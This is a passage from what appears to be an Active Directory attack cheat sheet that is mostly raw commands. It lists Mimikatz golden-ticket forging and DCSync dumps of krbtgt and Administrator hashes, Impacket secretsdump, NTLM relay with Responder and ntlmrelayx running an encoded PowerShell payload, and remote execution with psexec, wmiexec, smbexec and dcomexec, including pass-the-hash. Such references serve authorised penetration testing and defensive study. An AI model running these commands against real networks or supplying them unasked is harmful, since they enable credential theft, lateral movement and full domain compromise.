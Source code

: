 #### **Windows:**
```powershell
# Mimikatz
kerberos::golden /user:Administrator /domain:domain.com /sid:DOMAIN_SID /target:TARGET /service:SERVICE /rc4:SERVICE_HASH /ptt
```

### **3. DCSync**

#### **Linux:**
```bash
# Impacket
secretsdump.py domain.com/username:password@DC_IP
secretsdump.py -hashes :NTLM_HASH domain.com/username@DC_IP
```

#### **Windows:**
```powershell
# Mimikatz
lsadump::dcsync /domain:domain.com /user:krbtgt
lsadump::dcsync /domain:domain.com /user:Administrator
```

---

## 🌐 **Lateral Movement**

### **1. NTLM Relay**

#### **Linux:**
```bash
# Responder + ntlmrelayx
responder -I eth0 -rdwv
ntlmrelayx.py -tf targets.txt -smb2support

# With specific target
ntlmrelayx.py -t smb://TARGET_IP -smb2support -c "powershell -enc <base64_payload>"
```

### **2. Remote Execution**

#### **Linux:**
```bash
# Impacket
psexec.py domain.com/username:password@TARGET_IP
wmiexec.py domain.com/username:password@TARGET_IP
smbexec.py domain.com/username:password@TARGET_IP
dcomexec.py domain.com/username:password@TARGET_IP

# With hashes
psexec.py -hashes :NTLM_HASH domain.com/username@TARGET_IP
```
